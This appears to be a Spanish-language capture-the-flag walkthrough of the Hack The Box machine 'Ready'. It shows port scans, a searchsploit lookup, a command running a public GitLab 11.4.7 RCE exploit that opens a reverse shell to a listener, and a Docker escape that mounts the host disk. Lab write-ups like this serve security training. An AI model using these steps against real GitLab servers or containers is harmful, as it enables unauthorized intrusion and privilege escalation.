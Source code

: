 ```yaml
---
layout: post
title:  "Ready - HacktheBox " 
date:   2021-05-15 3:33:00 +0200
last_modified_at: 2021-05-15 03:33:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Walkthrough, CVE, Gitlab, docker]
---
```


{: .message}

![](/images_blog/img_ready/Pastedimage20210515121042.png)

En esta oportunidad se abuso de un CVE que esta presente en una version de Gitlab.

## Enumeración

*Puertos:*
```
22 -> OpenSSH 8.2p1 Ubuntu 4
5080 -> nginx
```

### Nmap

```sql
nmap -p- -sT -T5 --open -n -v 10.10.10.220 -oG Allport1 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:21 EDT
Initiating Ping Scan at 19:21
Scanning 10.10.10.220 [2 ports]
Completed Ping Scan at 19:21, 0.06s elapsed (1 total hosts)
Initiating Connect Scan at 19:21
Scanning 10.10.10.220 [65535 ports]
Discovered open port 22/tcp on 10.10.10.220
Connect Scan Timing: About 22.87% done; ETC: 19:23 (0:01:45 remaining)
Discovered open port 5080/tcp on 10.10.10.220
Connect Scan Timing: About 54.84% done; ETC: 19:23 (0:00:50 remaining)
Connect Scan Timing: About 72.24% done; ETC: 19:23 (0:00:35 remaining)
Completed Connect Scan at 19:23, 119.47s elapsed (65535 total ports)
Nmap scan report for 10.10.10.220
Host is up (0.15s latency).
Not shown: 51328 filtered ports, 14205 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.72 second
```

*Escaneo mas exhaustivo:*
```sql
nmap -sC -sV -p5080,22 10.10.10.220 -oN Scan_Port1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 19:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds
```

### Masscan

Siempre decartando los falsos positivos:
```sql
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-04-25 23:16:46 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 5080/tcp on 10.10.10.220
```


*Tips de enumeración web*

Si queremos saber rapidamente los servicios que tiene una web podemos tirar de la herramienta ```Whatweb```
```bash
whatweb 10.10.10.220:5080
http://10.10.10.220:5080 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.10.220], RedirectLocation[http://10.10.10.220:5080/users/sign_in], Strict-Transport-Security[max-age=31536000], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
http://10.10.10.220:5080/users/sign_in [200 OK] Cookies[_gitlab_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], HttpOnly[_gitlab_session], IP[10.10.10.220], Open-Graph-Protocol, PasswordField[new_user[password],user[password]], Script, Strict-Transport-Security[max-age=31536000], Title[Sign in · GitLab], UncommonHeaders[x-content-type-options,x-request-id], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx
```

*Version del GitLab*

```plaintext
GitLab Community Edition [11.4.7]
```

*Searchsploit*

Cuando tenemos la version del aplicativo lo que procede es buscar si tiene un cve esa version:

```bash
searchsploit GitLab 11.4.7   

Exploit
Title                                                      			Path
GitLab 11.4.7 - RCE (Authenticated) (2)                             | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)			| ruby/webapps/49257.py
```

## GitLab Page
Pero antes de ejecutar el cve debemos registrarnos en el GitLab:
*Register*

```plaintext
benji
Benji123
benji@htb.com
```
## Remote Code Execution 
En este no se tiene que modificar nada en el codigo fuente sino que este solo tienes que agregar los parametros y te ejecuta todo automatico [RCE](https://www.exploit-db.com/exploits/49334)

```bash
# Exploit Title: GitLab 11.4.7 RCE (POC)
# Date: 24th December 2020
# Exploit Author: Norbert Hofmann
# Exploit Modifications: Sam Redmond, Tam Lai Yin
# Original Author: Mohin Paramasivam
# Software Link: https://gitlab.com/
# Environment: GitLab 11.4.7, community edition
# CVE: CVE-2018-19571 + CVE-2018-19585
```

*Run*

```bash
python 49334.py -u benji -p Benji123!!! -g http://10.10.10.220 -l 10.10.14.234 -P 4444
```
Nos ponemos a la escucha en el puerto que especificamos y listo.

## File system Escape

Cuando tenemos el acceso inicial nos damos cuenta que estamos en un docker entonces el objetivo seria escapar del mismo

En la ruta /opt/backups/gitlab.rb encontraremos un backup con la contraseña root del contenedor

![](/images_blog/img_ready/Pastedimage20210503175440.png)

Estas contraseña que hemos encontrado en el backup, la utilizaremos para acceder como un usuario root del contenedor. Al estar dentro de un contenedor estamos muy limitados entonces la idea seria nos montamos la partición del hosts en una carpeta que creemos en /tmp para poder visualizarlo y de esta manera podemos acceder a /root y leer todo lo que tiene.

![](/images_blog/img_ready/Pastedimage20210503175936.png)

En este caso vimos como se puede desde un contenedor visualizar el sistema de archivo del host. Esta maquina fue una excelente manera de ver que pasa cuando no nos mantenemos actualizados.

MACHINE PWNED!!!!!